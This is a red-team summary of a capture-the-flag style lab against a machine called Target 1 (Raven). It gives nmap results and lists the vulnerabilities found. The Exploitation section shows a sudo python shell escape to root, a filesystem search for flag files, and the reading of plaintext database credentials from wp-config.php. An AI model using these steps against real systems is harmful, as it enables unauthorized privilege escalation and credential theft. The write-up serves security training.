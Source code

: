 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

`nmap` scan results for each machine reveal the below services and OS details:  
  *omitted output from machines on the network that are not the "Target 1"*


```bash
$ nmap -sV -A 192.168.1.90/24

# Nmap 7.80 scan initiated Sat Mar 27 10:00:43 2021 as: nmap -sV -A -oN nmap_out.txt 192.168.1.110
Nmap scan report for 192.168.1.110
Host is up (0.00082s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42312/tcp   status
|   100024  1          49348/tcp6  status
|   100024  1          54108/udp   status
|_  100024  1          57255/udp6  status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -3h39m59s, deviation: 6h21m02s, median: 0s
|_nbstat: NetBIOS name: TARGET1, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.2.14-Debian)
|   Computer name: raven
|   NetBIOS computer name: TARGET1\x00
|   Domain name: local
|   FQDN: raven.local
|_  System time: 2021-03-28T04:00:57+11:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-03-27T17:00:57
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.82 ms 192.168.1.110

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar 27 10:00:57 2021 -- 1 IP address (1 host up) scanned in 13.79 seconds
```

This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSH v6.7p1 22/tcp
  - Apache v2.4.10 80/tcp
  - Samba v4.2.14 445/tcp, 139/tcp


The following vulnerabilities were identified on each target:
- Target 1
  - Misconfiguration of `steven` user to run `python` as `sudo`
  - Misconfiguration of `michael` user with password the same as his name
  - OpenSSH configured with weak authentication, password only. 
  - 22/tcp was not filtered, accessible publicly. 
  - CVE-2017-7494 - Samba exec code vulnerability - 10.0 severity
  - CVE-2017-3167 - Apache authentication bypass vulnerability - 7.5 severity
  - Misconfiguration of Website with sensitive data publicly available in 
			source code.


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d  
      - **Exploit Used**  
         - Sensitive data publicly available  
         - Used the web browser's console to view source code   
         - Initially this flag was found with `grep` once logged in via SSH as any user
         - `grep -ER flag /var/www/html/`  

![flag1a](./screenshots/24-flag_1a.png)
![flag1b](./screenshots/24-flag_1b.png)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c  
      - **Exploit Used**  
          - Weak SSH authentication  
          - Once connected via SSH as any user, the flag could be found with
              a search
          - `find / -type f -iname "flag?.txt" -exec cat {} \; 2>/dev/null`  

![flag2](./screenshots/24-flag_2.png)

  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2  
      - **Exploit Used**  
          - Misconfiguration of `steven` user to run `python` with root permissions  
  	     	- `sudo python -c 'import os; os.system("/bin/sh")'`  
              - Once the permissions were escalated, `wp-config.php` file was readable, file includes the SQL database login information in clear text.   
              - With the login information for the database, it could be queried for flags 3 and 4  

  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce  
      - **Exploit Used**  
      - *Same method as flag 3, in the same database*  

![priv_escalate](./screenshots/24-python_escalate.png)
![flag3and4](./screenshots/24-flag_3_and_4.png)
